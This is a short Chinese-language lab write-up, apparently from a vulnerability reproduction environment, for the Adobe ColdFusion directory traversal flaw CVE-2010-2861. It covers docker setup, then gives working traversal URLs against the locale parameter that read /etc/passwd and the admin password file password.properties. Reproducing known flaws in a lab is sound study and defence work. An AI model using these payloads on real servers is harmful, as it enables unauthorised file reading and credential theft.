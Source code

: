 # Adobe ColdFusion 文件读取漏洞（CVE-2010-2861）

Adobe ColdFusion是美国Adobe公司的一款动态Web服务器产品，其运行的CFML（ColdFusion Markup Language）是针对Web应用的一种程序设计语言。

Adobe ColdFusion 8、9版本中存在一处目录穿越漏洞，可导致未授权的用户读取服务器任意文件。

## 环境搭建

执行如下命令启动Adobe CouldFusion 8.0.1版本服务器：

```
docker-compose up -d
```

环境启动可能需要1~5分钟，启动后，访问`http://your-ip:8500/CFIDE/administrator/enter.cfm`，可以看到初始化页面，输入密码`admin`，开始初始化整个环境。

## 漏洞复现

直接访问`http://your-ip:8500/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../etc/passwd%00en`，即可读取文件`/etc/passwd`：

![](1.png)

读取后台管理员密码`http://your-ip:8500/CFIDE/administrator/enter.cfm?locale=../../../../../../../lib/password.properties%00en`：

![](2.png)
